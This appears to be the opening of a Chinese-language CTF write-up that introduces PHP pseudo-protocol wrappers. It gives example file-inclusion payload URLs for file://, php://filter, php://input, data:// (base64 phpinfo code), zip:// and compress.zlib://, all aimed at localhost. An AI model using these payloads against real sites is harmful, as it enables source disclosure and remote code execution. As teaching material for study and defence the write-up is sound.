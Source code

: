 # 0x01 php伪协议

本题主要考察PHP伪协议的利用，先熟悉一下php常见伪协议

### php常见伪协议

官方文档：https://www.php.net/manual/zh/wrappers.php。

官网文档说的是php伪协议就是内置的URL风格的封装协议。除了内置的封装协议，也可以自己注册封装自定义协议。以下是常见的几种内置封装协议。

- **file://**

  作用：访问本地文件系统

  使用方法：file://文件的绝对路径和文件名

  eg：http://127.0.0.1/cmd.php?file=file://D:/soft/phpStudy/WWW/phpcode.txt

- **php://filter**

  作用：读取文件源码，并将base64编码之后的源码输出

  eg: http://127.0.0.1/1/php.php?file=php://filter/read=convert.base64-encode/resource=a.php

- **php://input**

  条件: allow_url_include　需要设置为　On

  作用：以post形式执行php代码。

  使用：

  ​	http://127.0.0.1/1/php.php?file=php://input

  ​	post数据：	<?php phpinfo();?>

- **data://**

  作用：发送数据到服务端

  条件：这里allow_url_include 和 allow_url_fopen 都需要设置为 On, PHP>=5.2.0，一般用base64编码传输。

  eg:http://127.0.0.1/include.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b

- **zip://**

  payload:

  http://127.0.0.1/lab13.php?file=zip://C:\Users\yale\Desktop\test.zip#zip.txt

  事实上zip后缀改为jpg仍能正常解析

  http://127.0.0.1/lab13.php?file=zip://C:\Users\yale\Desktop\test.jpg%23zip.txt

- **zlib://**

  payload

  http://127.0.0.1/lab13.php?file=compress.zlib://C:\Users\yale\Desktop\zip.jpg
